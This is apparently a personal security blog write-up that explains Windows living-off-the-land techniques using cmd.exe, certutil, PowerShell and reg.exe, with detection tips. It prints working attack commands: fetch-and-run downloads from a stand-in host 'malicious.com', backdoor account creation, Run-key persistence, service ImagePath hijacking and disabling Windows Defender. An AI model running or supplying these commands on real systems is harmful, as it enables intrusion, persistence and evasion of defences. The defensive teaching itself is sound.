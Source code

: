 ```yaml
---
title: "Exploring Living Off The Land Binaries and Techniques"
date: 2024-03-26
layout: post
categories: write-ups
---
```


### Exploring A Few Living-Off-The-Land Binaries and Techniques

#### Living off the Land (LOTL) Binaries, Windows

![Courtesy of DALL-E, prompt provided by Grant Wilsey (darkyolks)](/assets/images/10btGIciM2lFvwZTYlH5t6w.png)

When it comes to avoiding detection and maintaining access to a newly hacked system, attackers can become very resourceful. They will often employ techniques that leverage existing system tools on the system to remain hidden, maintain persistence, escalation privileges and exfiltrate data from the target. One such strategy is known as “Living off the Land” (LOTL), where attackers utilize legitimate binaries already present on the target system to execute malicious activities, making it harder for traditional security solutions to detect their actions. I’m interested in learning more about Living-off-the-land techniques, so in this blog post we’ll explore the concept of LOTL binaries and showcase a few simple examples that exploit native Windows capabilities.

### Understanding LOTL Binaries

LOTL binaries refer to legitimate executables found on operating systems that attackers repurpose for malicious activities. These binaries are part of the operating system’s standard toolkit and are trusted by security mechanisms, making them ideal for stealthy attacks. By leveraging LOTL binaries, attackers can evade detection and blend in with normal system operations, making it challenging for security analysts to identify their malicious activities.

#### A Few Examples of Living-Off-The-Land Binaries

#### 1. cmd.exe

`cmd.exe`is the standard command-line interpreter on Windows systems. Attackers can abuse this binary for various malicious purposes, such as executing commands, downloading files, or launching other processes. I gather several examples of how cmd.exe can be misused, or rather used with normal functionality except with malicious intent:

**Example 1: Command Execution**

```
cmd.exe /c net user hacker P@ssw0rd123 /add
```

In this example, an attacker that already likely has administrator privileges creates a new user account named “darkyolks” with the password “P@ssw0rd123” using the `net user` command executed via `cmd.exe`. This is a simple way yet effective way that adversaries use native features within Windows environments to maintain persistence.

![](/assets/images/13eGihN7zYK51S0HjGHWq1g.png)

Successful user creation via cmd.exe

![](/assets/images/1FRUnF4LCq2GAZnM8l55Uwg.png)

Denied user creation due to invalid privileges.

Proper logging set up for **Windows Event ID 4720** — “A User was created” is one way to detect this type of persistence.

**Example 2: Downloading Files**

```
cmd.exe /c powershell.exe -c “Invoke-WebRequest -Uri http://malicious.com/malicious.exe -OutFile C:\Temp\malicious.exe”
```

Here, the attacker uses `cmd.exe` to invoke **PowerShell** and download a malicious executable from a remote server. `powershell.exe` and `certutil.exe` are LOTL binaries themselves. Malicious.com/malicious.exe is quite suspicious.

#### 2. certutil.exe

`certutil.exe` is a command-line utility for managing digital certificates in Windows. While primarily used for legitimate purposes, attackers can abuse **certutil.exe** for file decoding/encoding and data exfiltration.

**Example 1: Data Exfiltration**

```
certutil.exe -urlcache -split -f http://malicious.com/secret.txt C:\Temp\secret.txt
```

In this example, the attacker uses `certutil.exe` to download a file (secret.txt) from a remote server and save it to the local system.

**Example 2: Encoding and Decoding Files with certutil.exe**

Another trick is using `certutil.exe` for encoding and decoding files, which can obfuscate malicious payloads to evade detection. Here's how you can encode a file:

```
certutil -encode payload.exe encoded_payload.txt
```

To decode the encoded file:

```
certutil -decode encoded_payload.txt decoded_payload.exe
```
#### 3. powershell.exe

`powershell.exe`is a powerful scripting environment built into Windows systems. Attackers commonly abuse PowerShell for various malicious activities, including command execution, file manipulation, and lateral movement. This binary will work similar to `cmd.exe`, as shown in previous examples when PowerShell was called via the command line.

**Example: Command Execution**

```
powershell.exe -ExecutionPolicy Bypass -Command “& {Invoke-Expression (New-Object Net.WebClient).DownloadString(‘http://malicious.com/script.ps1')}"
```

Similar to the `cmd.exe` example, an attacker uses `powershell.exe` to bypass execution policies then download and execute a malicious PowerShell script (script.ps1) from a remote server.

#### 4. reg.exe

`reg.exe` is a built-in Windows utility designed to manipulate the system registry. The system registry a hierarchical database that stores configuration settings and options on Microsoft Windows operating systems. Attackers may abuse `reg.exe` to modify registry keys related to system configurations, user settings, or installed software. By altering these keys, they can achieve persistence, escalate privileges, or even disable security mechanisms.

**Example 1: Achieving Persistence**  
`reg.exe` provides attackers with a convenient way to establish persistence by adding entries to the Windows registry that execute their malicious payloads during system startup.  
Example:

```
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v MaliciousProgram /t REG_SZ /d “C:\Malware\malware.exe” /f
```

In this example, the attacker uses `reg.exe` to add a registry entry under the current user’s `Run` key. This entry specifies the path to the malicious executable (malware.exe), ensuring that it runs every time the user logs in.

**Example 2: Escalating Privileges**

Privilege escalation is another common goal for attackers, as it grants them higher levels of access to the system and potentially allows them to execute more impactful attacks. The binary `reg.exe` can be exploited to escalate privileges by manipulating registry keys associated with system services or user accounts.

```
  
reg add “HKLM\SYSTEM\CurrentControlSet\Services\SomeVulnerableService” /v ImagePath /t REG_EXPAND_SZ /d “C:\Malware\malware.exe” /f
```

In this scenario, the attacker modifies the ‘*ImagePath’* value of a vulnerable system service using `reg.exe`. By replacing the legitimate service executable with their malicious payload (malware.exe), they can execute arbitrary code with elevated privileges the next time the service starts.

**Example 3: Disabling Security Software**

Attackers often seek to disable or bypass security software installed on the compromised system to evade detection and maintain their foothold. The binary `reg.exe` provides attackers with the ability to modify registry keys related to security software settings or configurations.

```
reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender” /v DisableAntiSpyware /t REG_DWORD /d 1 /f  
  

```

This command adds a registry key `DisableAntiSpyware` under `HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender` and sets its value to `1`, which effectively disables Windows Defender permanently.

![](/assets/images/14Gcm4MXLkloUHAptSBmtWA.png)

Disabling Windows Defender with reg.exe via command line.

This screenshot shows the command executing successfully. Note the user running the command needs to be running with administrator privileges in order to make changes to the registry. An attacker may have already escalated their privileges to modify the registry at this stage of their attack.

### Conclusion

Living off the land binaries pose a significant challenge for defenders due to their legitimate nature and widespread use. By understanding the differences of legitimate binaries and malicious ones, analysts are tasked with triaging the events and piecing together the actions taken post-compromise. This essential skills protects

By adopting a proactive approach to security and leveraging threat intelligence, organizations can stay one step ahead of cyber adversaries and mitigate the risks associated with living off the land attacks.

For further research and exploration of LOTL binaries, the [LOLBAS project](https://lolbas-project.github.io/) provides a comprehensive repository of common LOTL binaries and their respective use cases in offensive security scenarios.



By [darkyolks](https://www.darkyolks.com) originally published on March 26, 2024.


